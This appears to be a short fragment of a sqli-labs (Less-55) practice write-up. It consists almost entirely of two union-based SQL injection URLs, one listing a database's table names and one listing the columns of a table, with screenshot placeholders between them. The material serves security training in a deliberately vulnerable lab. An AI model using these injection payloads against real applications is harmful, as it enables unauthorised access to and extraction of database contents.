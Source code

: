 
```sql
http://192.168.80.132/sqli-labs/Less-55/?id=-1)  
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 --+
```

![](file/image_s_tzdnOSHa.png)

```bash
http://192.168.80.132/sqli-labs/Less-55/?id=-1)  
union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='hldw3868xt'),3 --+
```

![](file/image_qqTGCQcCBu.png)
